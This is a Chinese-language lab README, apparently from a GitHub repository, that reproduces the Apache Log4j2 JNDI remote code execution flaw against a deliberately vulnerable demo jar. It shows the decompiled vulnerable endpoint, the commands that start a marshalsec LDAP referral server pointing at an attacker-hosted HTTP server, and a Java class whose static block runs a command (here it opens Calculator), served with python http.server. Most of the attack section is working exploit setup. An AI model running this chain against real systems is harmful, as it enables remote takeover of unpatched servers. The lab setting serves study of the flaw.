

# Apache Log4j RCE

## 环境准备

- 仓库中demo.jar(更接近实际渗透环境) 或者[idea代码直接调试](https://github.com/tangxiaofeng7/apache-log4j-poc/)

> 值得注意的是：@apache-log4j-poc仓库中的截图poc代码为缺省`127.0.0.1`，我本地并未成功，需调整为网卡监听局域网地址如`192.168.x.x`

- JDK版本11以下，我的测试版本如下：

```bash
>java -version
java version "1.8.0_181"
Java(TM) SE Runtime Environment (build 1.8.0_181-b13)
Java HotSpot(TM) 64-Bit Server VM (build 25.181-b13, mixed mode)
```

## 分析环境

把demo.jar拉到jd-gui中反编译：

`com.example.log4j2_rce.Log4j2RceApplication`

```java
  @PostMapping({"/hello"})
  public String hello(String payload) {
    System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
    System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
    logger.error("{}", payload);
    logger.info("{}", payload);
    logger.info(payload);
    logger.error(payload);
    return "ok";
  }
```

访问路由为hello，post`payload`参数；

## 尝试

```bash
$ java -jar demo.jar
  .   ____          _            __ _ _
 /\\ / ___'_ __ _ _(_)_ __  __ _ \ \ \ \
( ( )\___ | '_ | '_| | '_ \/ _` | \ \ \ \
 \\/  ___)| |_)| | | | | || (_| |  ) ) ) )
  '  |____| .__|_| |_|_| |_\__, | / / / /
 =========|_|==============|___/=/_/_/_/
 :: Spring Boot ::        (v2.1.3.RELEASE)
 ···
```

```bash
# 启LDAP服务：
$ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.3.64/#dnslog"

# 启http：
$ cat dnslog.java
import java.lang.Runtime;
import java.lang.Process;

public class dnslog {
	static {

		try{
	 	Runtime rt = Runtime.getRuntime();
	 	String[] commands = {"open","/System/Applications/Calculator.app"};
	 	Process pc = rt.exec(commands);
	 	pc.waitFor();
	 	}catch (Exception e) {
	 	//no
		}

	}
}
$ javac dnslog.java
$ python3 -m http.server 80
Serving HTTP on :: port 80 (http://[::]:80/) ...
```



## 限制

- 目前暂时只知道jdk高版本会报错：`[main] ERROR log4j - Reference Class Name: foo`

这里本人没有测试，可以移步自行分析版本限制[bilibili @GCC酱_0ff1c1a1 Log4j2 漏洞风险演示与个人看法](https://www.bilibili.com/video/BV15Q4y1e7jZ)，也欢迎贡献本仓库。

## 代码及参考

- [【安全通报】Apache Log4j2 远程代码执行漏洞](https://nosec.org/home/detail/4917.html)
- [bilibili @GCC酱_0ff1c1a1 Log4j2 漏洞风险演示与个人看法](https://www.bilibili.com/video/BV15Q4y1e7jZ)